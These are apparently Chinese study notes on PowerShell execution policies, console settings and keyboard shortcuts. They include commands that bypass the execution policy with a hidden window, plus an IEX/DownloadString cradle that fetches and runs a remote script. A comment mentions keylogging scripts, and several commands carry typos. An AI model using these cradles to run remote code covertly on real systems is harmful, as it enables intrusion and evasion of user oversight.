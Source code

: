 

###### 执行策略

```powershell
Get-ExecutionPolicy   #查看当前策略

- Restricted        #脚本不能运行（默认）
- RemoteSigned      #本地创建的脚本可以运行，但从网上下载的脚本不能运行
- AllSigned         #仅当脚本由信任的发布者签名时才能运行
- Unrestricted      #允许所有的脚本运行
```

###### 绕过本地权限执行脚本

```powershell
powershell.exe  -ExexutionPolicy ByPass -File xxx.ps1

# -ExexutionPolicy ByPass   绕过执行安全策略
```


###### 本地隐藏绕过权限执行脚本

```powershell
powershell.exe  -ExexutionPolicy ByPass -WindowStyle Hidden -NoLogo -Nolnteractive -NoProfile -File xxx.ps1

# -WindowStyle Hidden 隐藏窗口
# -NoLogo    启动不显示版权标志的PowerShell
```

###### 用IEX下载远程PS1脚本绕过权限执行脚本

```powershell
powershell.exe  -ExexutionPolicy ByPass -WindowStyle Hidden -NoProfile -NonI IEX(New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]

# -NonI   非交互模式
# -NoProfile  /     -NoP         不加载当前用户的配置文件

# Noexit    执行后不退出Shell  （这在使用键盘记录等脚本时非常重要）

```





可以直接在终端进行数字计算.....笑死



**自定义Powershell控制台**
右键自己看着自己的习惯调整吧  
编辑选项：

- 快速编辑选项（操作快且方便）
- 标准编辑选项

**Powershell快捷键**
与linux中相似
```bash
alt+F7			#清除命令的历史记录
PgUp   PgDn		#翻页的效果
Esc		#情况命令行（我还是喜欢 ^L）
Home	#移动到命令行最左端
End		#移动到命令行最右端
```
